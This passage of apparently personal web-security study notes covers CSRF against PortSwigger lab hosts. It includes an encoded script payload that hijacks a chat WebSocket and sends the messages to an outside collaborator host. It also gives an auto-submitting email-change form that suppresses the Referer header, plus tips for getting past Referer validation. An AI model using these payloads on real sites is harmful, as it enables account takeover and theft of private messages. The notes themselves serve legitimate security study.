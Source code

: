   ><script>document.location="https://cms-0a8b0080049320f7c0df54a800d500f6.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%38%62%30%30%38%30%30%34%39%33%32%30%66%37%63%30%64%66%35%34%61%38%30%30%64%35%30%30%66%36%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%7d%3b%0a%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%37%79%36%67%30%35%33%73%71%67%7a%30%36%7a%66%31%74%36%61%6d%75%34%64%37%71%79%77%70%6b%68%38%36%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=pippo";</script>
>```

### Referer-based validation

^7c9e8d

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, by verifying that the request originated from the application's own domain.

#### Common bypasses and flaws

- **Validation of Referer depends on header being present**:
  Some applications validate the `Referer` header when it is present in requests but skip the validation if the header is omitted. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack: `<meta name="referrer" content="never">`
>[!example]
>```html
><html>
><meta name="referrer" content="never">
>  
>  <body>
>  <script>history.pushState('', '', '/')</script>
>    <form action="https://0a85006803036428c2d207fe00770035.web-security-academy.net/my-account/change-email" method="POST">
>      <input type="hidden" name="email" value="test&#64;test&#46;com" />
>      <input type="submit" value="Submit request" />
>    </form>
>    <script>
>      document.forms[0].submit();
>    </script>
>  </body>
></html>
>```

- **Validation of Referer can be circumvented**:
  Some applications validate the `Referer` header in a naive way that can be bypassed (eg. appending or adding at the end of the query string the desired domain). However, refer to [evading restrinctions](Evading%20Restrictions.md#Other%20resources) for further techniques.
>[!warning]
>Although you may be able to identify this behavior using Burp, you will often find that this approach no longer works when you go to test your proof-of-concept in a browser. In an attempt to reduce the risk of sensitive data being leaked in this way, **many browsers now strip the query string from the Referer header by default**. You can override this behavior by making sure that the response containing your exploit has the `Referrer-Policy: unsafe-url` header set. This ensures that the full URL will be sent, including the query string.
